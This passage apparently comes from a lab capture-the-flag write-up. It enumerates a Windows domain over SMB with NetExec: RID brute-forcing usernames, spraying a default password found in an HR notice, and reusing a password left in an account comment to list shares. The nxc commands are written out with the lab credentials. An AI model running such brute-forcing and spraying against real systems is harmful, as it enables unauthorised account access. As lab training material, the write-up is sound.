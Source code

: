 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747289584630/3b691135-12e2-4e26-935b-c9652fcb2110.png align="center")

```apache
cat Notice\ from\ HR.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747289622659/2fad8196-0030-4399-a86c-0dfd6a00ba33.png align="center")

We’ve been provided with a default password here `Cicada$M6Corpb*@Lp#nZp!8` But we’re unaware of the users.

As we have guest authentication, we can do RID brute-forcing to bruteforce the user id’s from 0-4000.

```apache
nxc smb 10.129.64.6 -u "dignitas" -p "" --rid-brute
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747289927568/8293b231-c523-4b02-a6d2-2a88b7b16f1e.png align="center")

We got some users, so let’s add that to our list and then start with the password spray.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747290049245/a0df4f55-0bc0-4180-bee4-68d3b4f97fd3.png align="center")

```apache
nxc smb 10.129.64.6 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747290255831/022585a8-8329-41ba-a9a1-c513c2b3e615.png align="center")

The password is valid for `michael.wrightson`. Let’s enumerate and see if this user has access to `DEV` share.

```apache
nxc smb 10.129.64.6 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747290411674/48a011f8-00aa-4d09-b0c7-36e014191d82.png align="center")

Michael doesn’t have any additional share access beyond what the guest user has. Now with LDAP access, we can look for a more complete list of users.

```apache
nxc smb 10.129.64.6 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747290572732/bd427386-9e7d-4721-ad4f-16f574db6781.png align="center")

We have 8 local users, but the interesting thing is that the user `david.orelious` has a comment that spills his password `aRt$Lp#7t*VQ!3`

Let’s now check the access to the `DEV` Share again.

```apache
nxc smb 10.129.64.6 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747290791814/2a6fd6e2-3050-4f2b-92be-50c4f0f8e3db.png align="center")
